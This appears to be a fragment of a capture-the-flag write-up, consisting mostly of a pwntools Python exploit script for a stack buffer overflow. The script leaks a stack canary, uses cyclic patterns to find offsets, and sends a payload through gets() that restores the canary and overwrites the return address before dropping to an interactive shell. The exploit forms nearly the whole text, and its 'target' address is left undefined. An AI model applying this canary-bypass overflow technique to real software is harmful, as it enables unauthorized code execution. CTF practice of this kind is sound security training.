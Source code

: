```python2

io.sendline('b')
print(io.recvuntil(': '))

inp = io.recvuntil('\n')
canary = unpack(inp[0:4])
print('canary: '+hex(canary))

# buffer starts at $ebp-0x68
# 80487e8:       83 c4 04                add    esp,0x4
# 80487eb:       8d 45 98                lea    eax,[ebp-0x68]
# 80487ee:       50                      push   eax
# 80487ef:       e8 ec fc ff ff          call   80484e0 <gets@plt>
crash = False
if crash:
    io.sendline('a')
    print(io.recvuntil('len: '))
    io.sendline('4')
    print('4\n')

    # read address of canary, see where it is using cyclic
    # x [canary address]
    #pattern = cyclic(200)
    # abya

    # insert canary then cyclic our way upp
    pattern = cyclic(cyclic_find('abya')) + pack(canary) + cyclic(512)
    print(pattern)
    io.sendline(pattern)
    # caaa

    io.interactive()
    sys.exit()

# exploits baby
io.sendline('a')
print(io.recvuntil('len: '))
io.sendline('4')
print('4\n')
exploit = cyclic(cyclic_find('abya')) + pack(canary) + 'A'*cyclic_find('caaa') + pack(target)
io.sendline(exploit)
io.sendline('d')

# cat flag should always be done by hand for maximum hacker points
io.interactive()
```

re.png
===========================

Flag: n/a
